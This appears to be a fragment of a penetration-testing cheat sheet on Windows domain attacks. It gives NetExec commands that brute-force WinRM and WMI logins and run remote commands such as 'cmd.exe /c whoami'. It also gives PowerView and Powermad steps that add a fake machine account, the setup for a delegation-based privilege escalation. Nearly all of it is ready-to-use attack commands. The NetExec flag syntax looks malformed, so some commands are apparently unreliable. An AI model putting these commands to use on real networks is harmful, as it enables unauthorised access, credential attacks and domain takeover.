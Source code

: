 ```plaintext

- nxc winrm /net:<target_ip> /check
- nxc winrm /net:<target_ip> /user:<domain>\<username> /pass:<password> /cmd:"whoami"
- nxc winrm /net:<target_ip> /userfile:<userfile_path> /passfile:<passwordfile_path> /bruteforce

WMI

- nxc wmi /net:<target_ip> /user:<domain>\<username> /pass:<password> /query:"SELECT * FROM Win32_OperatingSystem"
- nxc wmi /net:<target_ip> /user:<domain>\<username> /pass:<password> /exec:"cmd.exe /c whoami"
- nxc wmi /net:<target_ip> /userfile:<userfile_path> /passfile:<passwordfile_path> /bruteforce
```

# Privilege Escalations
## Using PowerView.ps1 to normal use of powershell
- uploading via upload, curl, Invoke-WebReQuest
- . ./PowerView.ps1
Get-DomainComputer DC | select name, msds-allowedtoactonbehalfofotheridentity

## Adding a new computer object with PowerMad
- . ./Powermad.ps1

New-MachineAccount -MachineAccount FAKE-COMP01 -Password $(ConvertTo-SecureString 'Password123' -AsPlainText -Force)
- verify if machine was added
Get-ADComputer -identity FAKE-COMP01









